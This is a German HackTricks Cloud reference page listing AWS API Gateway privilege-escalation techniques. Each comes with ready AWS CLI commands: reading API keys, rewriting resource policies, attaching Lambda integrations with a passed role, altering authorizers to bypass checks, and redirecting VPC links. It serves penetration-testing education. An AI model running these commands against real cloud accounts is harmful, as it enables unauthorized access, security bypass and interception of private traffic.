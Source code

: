 # AWS - Apigateway Privilege Escalation

<details>

<summary><strong>Erlernen Sie AWS-Hacking von Null auf Held mit</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Andere Möglichkeiten, HackTricks zu unterstützen:

* Wenn Sie Ihr **Unternehmen in HackTricks beworben sehen möchten** oder **HackTricks im PDF-Format herunterladen möchten**, überprüfen Sie die [**ABONNEMENTPLÄNE**](https://github.com/sponsors/carlospolop)!
* Holen Sie sich das [**offizielle PEASS & HackTricks-Merchandise**](https://peass.creator-spring.com)
* Entdecken Sie [**The PEASS Family**](https://opensea.io/collection/the-peass-family), unsere Sammlung exklusiver [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Teilen Sie Ihre Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repositories senden.

</details>

## Apigateway

Für weitere Informationen siehe:

{% content-ref url="../aws-services/aws-api-gateway-enum.md" %}
[aws-api-gateway-enum.md](../aws-services/aws-api-gateway-enum.md)
{% endcontent-ref %}

### `apigateway:POST`

Mit dieser Berechtigung können Sie API-Schlüssel der konfigurierten APIs generieren (pro Region).
```bash
aws --region <region> apigateway create-api-key
```
**Potenzielle Auswirkungen:** Mit dieser Technik können Sie keine Privilegien eskalieren, aber Sie könnten Zugriff auf sensible Informationen erhalten.

### `apigateway:GET`

Mit dieser Berechtigung können Sie generierte API-Schlüssel der konfigurierten APIs abrufen (pro Region).
```bash
aws --region <region> apigateway get-api-keys
aws --region <region> apigateway get-api-key --api-key <key> --include-value
```
**Potenzielle Auswirkungen:** Mit dieser Technik können Sie keine Privilegien eskalieren, aber Sie könnten Zugriff auf sensible Informationen erhalten.

### `apigateway:UpdateRestApiPolicy`, `apigateway:PATCH`

Mit diesen Berechtigungen ist es möglich, die Ressourcenrichtlinie einer API zu ändern, um sich selbst Zugriff zu geben, um sie aufzurufen und potenziell auf den API-Gateway zuzugreifen (zum Beispiel das Aufrufen einer anfälligen Lambda-Funktion).

{% code overflow="wrap" %}
```bash
aws apigateway update-rest-api \
--rest-api-id api-id \
--patch-operations op=replace,path=/policy,value='"{\"jsonEscapedPolicyDocument\"}"'
```
{% endcode %}

**Potenzielle Auswirkungen:** In der Regel können Sie mit dieser Technik nicht direkt eine Privilege Escalation durchführen, aber Sie könnten Zugriff auf sensible Informationen erhalten.

### `apigateway:PutIntegration`, `apigateway:CreateDeployment`, `iam:PassRole`

{% hint style="info" %}
Benötigt Tests
{% endhint %}

Ein Angreifer mit den Berechtigungen `apigateway:PutIntegration`, `apigateway:CreateDeployment` und `iam:PassRole` kann **eine neue Integration zu einer vorhandenen API Gateway REST-API mit einer Lambda-Funktion hinzufügen, die über eine angehängte IAM-Rolle verfügt**. Der Angreifer kann dann **die Lambda-Funktion auslösen, um beliebigen Code auszuführen und möglicherweise Zugriff auf die mit der IAM-Rolle verbundenen Ressourcen zu erlangen**.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
RESOURCE_ID="your-resource-id"
HTTP_METHOD="GET"
LAMBDA_FUNCTION_ARN="arn:aws:lambda:region:account-id:function:function-name"
LAMBDA_ROLE_ARN="arn:aws:iam::account-id:role/lambda-role"

# Add a new integration to the API Gateway REST API
aws apigateway put-integration --rest-api-id $API_ID --resource-id $RESOURCE_ID --http-method $HTTP_METHOD --type AWS_PROXY --integration-http-method POST --uri arn:aws:apigateway:region:lambda:path/2015-03-31/functions/$LAMBDA_FUNCTION_ARN/invocations --credentials $LAMBDA_ROLE_ARN

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Potenzielle Auswirkungen**: Zugriff auf Ressourcen, die mit der IAM-Rolle der Lambda-Funktion verbunden sind.

### `apigateway:UpdateAuthorizer`, `apigateway:CreateDeployment`

{% hint style="info" %}
Benötigt Test
{% endhint %}

Ein Angreifer mit den Berechtigungen `apigateway:UpdateAuthorizer` und `apigateway:CreateDeployment` kann **einen vorhandenen API Gateway-Autorisierer ändern**, um Sicherheitsüberprüfungen zu umgehen oder beliebigen Code auszuführen, wenn API-Anfragen gestellt werden.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
AUTHORIZER_ID="your-authorizer-id"
LAMBDA_FUNCTION_ARN="arn:aws:lambda:region:account-id:function:function-name"

# Update the API Gateway authorizer
aws apigateway update-authorizer --rest-api-id $API_ID --authorizer-id $AUTHORIZER_ID --authorizer-uri arn:aws:apigateway:region:lambda:path/2015-03-31/functions/$LAMBDA_FUNCTION_ARN/invocations

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Potenzielle Auswirkungen**: Umgehung von Sicherheitsüberprüfungen, unbefugter Zugriff auf API-Ressourcen.

### `apigateway:UpdateVpcLink`

{% hint style="info" %}
Benötigt Test
{% endhint %}

Ein Angreifer mit der Berechtigung `apigateway:UpdateVpcLink` kann **einen vorhandenen VPC-Link ändern, um auf einen anderen Network Load Balancer zu verweisen, wodurch private API-Datenverkehr möglicherweise auf nicht autorisierte oder bösartige Ressourcen umgeleitet werden**.
```bash
bashCopy codeVPC_LINK_ID="your-vpc-link-id"
NEW_NLB_ARN="arn:aws:elasticloadbalancing:region:account-id:loadbalancer/net/new-load-balancer-name/50dc6c495c0c9188"

# Update the VPC Link
aws apigateway update-vpc-link --vpc-link-id $VPC_LINK_ID --patch-operations op=replace,path=/targetArns,value="[$NEW_NLB_ARN]"
```
**Potenzielle Auswirkungen**: Unbefugter Zugriff auf private API-Ressourcen, Abfangen oder Unterbrechen des API-Verkehrs.

<details>

<summary><strong>Erlernen Sie AWS-Hacking von Null auf Held mit</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Andere Möglichkeiten, HackTricks zu unterstützen:

* Wenn Sie Ihr **Unternehmen in HackTricks beworben sehen möchten** oder **HackTricks im PDF-Format herunterladen möchten**, überprüfen Sie die [**ABONNEMENTPLÄNE**](https://github.com/sponsors/carlospolop)!
* Holen Sie sich das [**offizielle PEASS & HackTricks-Merch**](https://peass.creator-spring.com)
* Entdecken Sie [**The PEASS Family**](https://opensea.io/collection/the-peass-family), unsere Sammlung exklusiver [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Teilen Sie Ihre Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repositories einreichen.

</details>
